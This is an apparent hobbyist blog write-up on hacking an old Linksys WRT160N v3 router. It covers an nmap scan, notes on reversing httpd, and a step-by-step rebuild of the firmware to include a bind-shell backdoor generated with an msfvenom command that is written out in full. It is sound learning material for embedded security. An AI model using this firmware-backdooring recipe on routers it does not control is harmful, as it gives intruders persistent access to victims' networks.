 ```yaml
---
layout: post
title: 'Modifying Router Firmware - Linksys WRT160N V3'
date: 2022-10-16
categories: exploitation
---
```

# Preface
There is a point in a man's (or woman's) life where he wakes up and decides he needs to learn some embedded, or hardware related cyber.
My friend had an old router collection that he found laying around, and I knew it was the right time.
![linksys_router](https://user-images.githubusercontent.com/53023744/196064650-137f185d-7708-45a7-8b88-ed1d16f43112.jpg)


# Goal
My goal is simple:
Find an RCE vulnerabillity (post auth), or somehow pop a reverse shell on the router.


## Attack Surface
# NMAP
I started with enumerating all of the open ports on the device with `nmap`.
This is the scan result:
```
Nmap scan report for 192.168.1.1
Host is up (0.034s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Tomato WAP firmware httpd (Linksys WRT160Nv3 WAP)
|_http-title: 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=WRT160Nv3
|_http-server-header: httpd
1780/tcp  open  http    Cisco DPC3828S WiFi cable modem
10080/tcp open  amanda?
Service Info: OS: Linux; Device: WAP; CPE: cpe:/o:linux:linux_kernel, cpe:/h:cisco:dpc3828s
```

After briefly researhing about each of the running services, I couldn't find anything interesting or helpful.
I decided to digg into the most attractive option - The httpd server, and the web pages it was serving to me.


# Web Server
This is the main page you get when you try to access the router:
![Main Page](https://user-images.githubusercontent.com/53023744/196054477-ca2a2870-7fa0-43ce-a4c4-577538c0d536.png)

Shortly, this is what I've tried:
* Searching for classic command injections in the ping/traceroute/etc interfaces.
	* The httpd server uses fork(), which behind the scenes calls execve().
		* How do I know that httpd uses fork()? We'll see later.
	* This means that we can't inject commands, unless we find a way to manipulate the binaries in our favor (basically a LOLBIN).
* Looking into Elon Gliksberg's [article](https://elongl.github.io/exploitation/2021/05/30/pwning-home-router.html) about a similar product - Linksys WRT54G.
	* I've found that in my router's firmware the bug via the language interface was patched.
* The comfortable way: There is a firmware upgrade interface where you can upload your own firmware.
	* If the other methods will fail, I'll go with this one.


## Firmware & Sources
I have to say, finding the right firmware was a cancerous journey.
Linksys had taken down many of the previously available firmwares from their site,
which made searching through the web a little more challenging.
Even though I tried looking into the Wayback Machine - I was stuck with the [sources](https://sourceforge.net/projects/officiallinksysfirmware/files/wrt160n/v3/) only.

At first, you might think to yourself:
"Wow! I can explore everything I want!".
Well, you'll be partially right.
Having the sources _**does**_ help.
But it doesn't always tell you to what architecture the firmware was compiled to,
and it also may not have some patches that the final firmware has.

Luckily enough, I eventually found the right firmware in some [forum](https://forum.dd-wrt.com/phpBB2/viewtopic.php?p=654578).
You can dowload it here if the site is down: [WRT160Nv3_0_03_003.zip](https://github.com/MaximAshin/MaximAshin.github.io/files/9795539/WRT160Nv3_0_03_003.zip)


## Reversing httpd - TODO!!!!!!!!!!!!!!!!!!!!!!!!!
Following the article Elon wrote, I tried to reverse the binary and search for dangerous function calls like system(), eval() etc...
Also, I tried to find mentions of nvram_get() to see if there's any unsanitized user input being used in important places.


## Let's Build a Firmware!
After spending a few hours reversing httpd, I thought to myself that I should try re-building the firmware with my own reverse-shell.
I knew this wasn't any fancy RCE exploit, but a common problem with wacky routers.
Still, I believe this is a handy trick to learn.

First, let's start by downloading the [firmware-mod-kit](https://github.com/rampageX/firmware-mod-kit).
This kit allows us to extract the rootfs from the firmware, add/edit stuff in it, and re-build it.
The kit is **really easy to use**, and you always can reffer to the [docs](https://code.google.com/archive/p/firmware-mod-kit/wikis/Documentation.wiki).

The steps are like so:
```
./extract-firmware.sh ../WRT160Nv3_0_03_003.code1.bin

cd fmk/rootfs/

# Add/Modify stuff here
# Make sure to chmod 777 your-binaries if you upload any
cp ~/Desktop/my_binary_file bin/
chmod 777 bin/my_binary_file

./build-firmware.sh 

# Upload new firmware!
```

Now, before we build our custom binary reverse-shell,
we need to know what architecture we need to compile the binary to.
This can be checked by running `file` on a random binary from the rootfs/bin folder:
```
file rootfs/bin/busybox
Output:
fmk/rootfs/bin/busybox: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

Now let's get to the step where we build our custom reverse-shell, compiled to 32bit mipsel (mipsel == MIPS little-endian).

# msfvenom
msfvenom is a handy utility that allows us to create (common-use-case) binaries/payloads.
In my case, I searched for payloads that run on mipsel architecture.

```msfvenom -l payloads | grep mipsle```

![image](https://user-images.githubusercontent.com/53023744/196055645-ef0680da-0e41-45f0-8bd2-2f577fc7628f.png)


As we can see, I can create a simple bind shell (listens in a given port and waits for a connection).
We can create the binary itself like so:

```msfvenom -p linux/mipsle/shell_bind_tcp LPORT=50505 -f elf > bs_backdoor```


Also, I wanted to leave a final touch on the router's main page before we re-build the firmware, so I edited index.asp:
![image](https://user-images.githubusercontent.com/53023744/196062658-4e7634b3-6292-4a3c-9a77-87b16b61cfb1.png)


Now I ran the `./build-firmware.sh` command and I got a new firmware!
Let's upload it :)




## Victory
I went onto the firmware upgrade page, and uploaded the firmware:

![image](https://user-images.githubusercontent.com/53023744/196064210-275cd403-00f7-4c76-bb00-9d7b8945b533.png)

After a few minutes, I had a screen showing that the upgrade completed successfully!
I waited for the router to restart.

When I saw that the lights on the router stopped blinking, I browsed to the main page.
As we can see, index.asp looked a little different (hehe):

![image](https://user-images.githubusercontent.com/53023744/196062617-0f5bae8f-04d0-4d50-86ed-94cbe260061f.png)


I quickly fired up Metasploit's listener and got a connection:

![image](https://user-images.githubusercontent.com/53023744/196055470-b6343f0c-cf0c-4b13-a3a1-dd64ca53b435.png)


I have a bind shell running on the router!
TBH, It was really fun.
